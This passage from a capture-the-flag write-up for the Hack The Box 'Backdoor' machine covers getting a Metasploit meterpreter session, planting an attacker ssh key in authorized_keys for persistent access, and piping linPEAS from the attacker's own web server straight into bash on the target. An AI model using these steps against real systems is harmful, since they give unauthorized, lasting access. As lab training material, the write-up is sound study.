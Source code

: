 
We're using Target 1 (x86_64) and the x64 payload because the machine is an x64 (64-bit) machine, not an x86 (32-bit) machine.

Run

```
set <SETTING NAME> <SETTING VALUE>
```

a few times to set the appropriate values.

After setting all of those options, waiting for port 1337 to open up, and running
```
run
```

we should get a meterpreter session back. This is good enough to get `user.txt`, but it would be nice to have a better shell, so let's get ourselves ssh access.

First, run
```bash
ssh-keygen
```
to make yourself a key on your local machine. I called mine `key`.

Next run
```bash
cat key.pub #or whatever you called your key with ".pub" at the end
```
to get the contents of your public key.

Now on our meterpreter session we'll do this:
```bash
cd ~
mkdir .ssh
cd .ssh
echo "<CONTENTS OF YOUR PUBLIC KEY>" >> authorized_keys
chmod 600 authorized_keys
```

Now we can log into the box as `user`
```bash
ssh -i key user@backdoor.htb
```

## Root
### Enumeration
Let's start by running linPEAS. First, download the latest `linpeas.sh` file from [the github](https://github.com/carlospolop/PEASS-ng).

We'll set up a web server on our local machine (using the folder with `linpeas.sh` as the working directory)
```bash
python -m http.server
```

Then on the ssh session, just run
```bash
curl http://<YOUR IP ADDRESS>:8000/linpeas.sh | bash
```
and linPEAS will start running automatically.
